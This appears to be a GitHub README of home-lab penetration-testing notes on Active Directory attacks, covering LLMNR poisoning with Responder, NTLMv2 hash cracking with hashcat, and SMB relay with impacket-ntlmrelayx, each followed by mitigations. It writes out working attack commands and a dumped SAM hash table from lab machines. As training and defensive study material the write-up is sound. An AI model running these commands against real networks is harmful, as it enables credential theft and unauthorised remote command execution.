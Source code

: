 Setup win2022 server: 192.168.64.138   
Setup Peterparker: \\192.168.64.140  
Setup Frankcastle: 192.168.64.139  
Kali: \\192.168.64.129/24

## 🚩 LLMNR Poisoning - Link Local Multicast resolution

**Requirements:**  
* LLMNR attack can be performed if the LLMNR/NBT-NS is enabled and the attacker machine is in the same network as the target.
* LLMNR attacks use the Responder tool which captures credentials that are broadcasted over the network when a user seek connection to a another service / resource that does not exists or is poorly configured. Through these vulnerabilities, Responder spoofs the request and responds by stating they know the service or resource. Requesting the victims NTLM hash.  

![image](https://github.com/user-attachments/assets/fc6902c4-acf7-4787-b2c8-607a7cd2900b)  

Commonly used tooling for LLMNR Poisoning attacks:  
Responder, Impacket, MITM6

### Capturing Hashes with Responder

Kali responder IP: 192.168.64.129/24

            sudo responder -I eth0 -dwv

![image](https://github.com/user-attachments/assets/8de5ddb4-8956-4b4b-98f6-c2df1cb6ac99)  

Ensure details such as nic, responder ip, is all correct. Once responder is on the network and listening for traffic, an example of captured NTLMv2 hashes can be seen like this:

![image](https://github.com/user-attachments/assets/f4e41ca4-5d90-4b66-b181-399742def06f)

### Cracking NTLM hashes  

            root@kali:/home/kali# hashcat -m 5600 ntlm.txt /usr/share/wordlists/rockyou.txt --force

![image](https://github.com/user-attachments/assets/7d5a47ce-1ef8-4cb6-9e7d-b8785a930da5)

Hash cracked.

## 🔵 LLMNR Poisoning Mitigation  

1. Disable LLMNR / NBT-NS (NetBIOS) Broadcasts.  
2. Implement NAC on the internal network.
3. Have strong password requirements for end users espicially admin or service accounts. This will also add to defense in depth.

## 🚩SMB Relay Attack - Service Message Block

SMB (Server Message Block) is a protocol used for file shares, printers, and other resources on a network. This common protocol can be abused when an attacker on the same internal network (domain and or subdomain) is actively attempting to capture the NTLM hashes transmitted over the network. Which is then maliciously relayed to a service / server, granting access since the hash is authenticated.

**Requirements:**  
* SMB signing must be disabled or not enforced on the target machine.  
* Target machine should be admin, domain admin or service accounts for maximum effect.
* Responder config files /etc/responsder/Responder.conf must have smb and https turned off, so that captured hashes are not stored but are instead 'relayed'.

![image](https://github.com/user-attachments/assets/d8f8f9fc-6393-4e74-877a-9a0a0731cc97)  

🔴 The reason why these are turned off is to prevent the authentication resposne from being captured, but rather we are attempting to 'relay' them to our targets lists.


1. Firstly identify hosts without SMB signing. 

            nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24 -Pn 
      
![image](https://github.com/user-attachments/assets/52f6904d-f256-467c-9b40-414b011f57c2)

2. Once we have discovered our targets (have SMB signing disabled and not required). Create a targets.txt detailing the targets.

            nano target.txt > add target ips into file

3. Start responsder with the new edited config files.

            responder -I eth0 -dPv

5. Start ntlmrelayx.py or impacket-ntlmrelax.

            impacket-ntlmrelax -tf targets.txt -smb2support

![image](https://github.com/user-attachments/assets/ac597d69-e6d9-4da3-affa-ca352ce13850)  

            [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
            Administrator:500:aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc:::
            Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
            DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
            WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:2709e4a8da75eb3a5c72700995058b08:::
            peterparker:1001:aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc:::
            [*] Done dumping SAM hashes for host: 192.168.64.140
            [*] Stopping service RemoteRegistry
            [*] Restoring the disabled state for service RemoteRegistry
Above figure presents a SAM Dump  

We have succesfully captured the NTLM hash from peterparker with Responder relaying the SAM authentication back to the server using impacket-ntlmrelayx. 

6. Gaining interactive shell with impacket.

            impacket-ntlmrelayx -tf targets.txt -smb2support -i  

![image](https://github.com/user-attachments/assets/dff22fbf-f7e3-4415-bb76-c1f9a7c42541)

Once interactive shell has been obtained as seen above, we can now bind this with netcat via the SMB shell TCP on 127.0.0.1:11000  
Once netcat has been binded to list all the available arguments that is available to be used in this specific shell environment.  

![image](https://github.com/user-attachments/assets/5ea73547-920d-4d1d-8ce7-085dadedbfc1)

7. Using command switch with impacket. 

            impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"

![image](https://github.com/user-attachments/assets/0bda36ba-980a-444a-ad6d-de4fa828981a)  

SMB relay attack with -c 'whoami' flag successful

## 🔵 SMB Relay attack Mitigations

1. Enable SMB Signing on all devices.
2. Accounting Tiering (limiting specific accounts to defined tasks).
3. Local admin restriction.
4. Disable NTLM authentication (completely stops the attack however if Kerberos fails, it cannot default to NTLM authentication).

## 🚩 Gaining Shell Access

### Metasploit module using psexec  
[prior to completing this secion, we will need to conduct another SMB relay attack using impacket-ntlmrelayx without any swithces. Capture the NT and LM hashes with the specific users captured. When these are obtained we can then direct them into the MSF modules or manual exploits]

### Manual mode using psexec.py  


### Other Remote command execution tools in Windows environments to attempt if one does not work.

1. Psexec
2. Wmiexec
3. SMBexec

------- 
**Reference:**  

https://medium.com/@tayyabanoor1201/tcm-security-smb-relay-attack-writeup-dfc7cc113bb0

https://medium.com/@rymak/smb-relay-attack-19192e1d158c
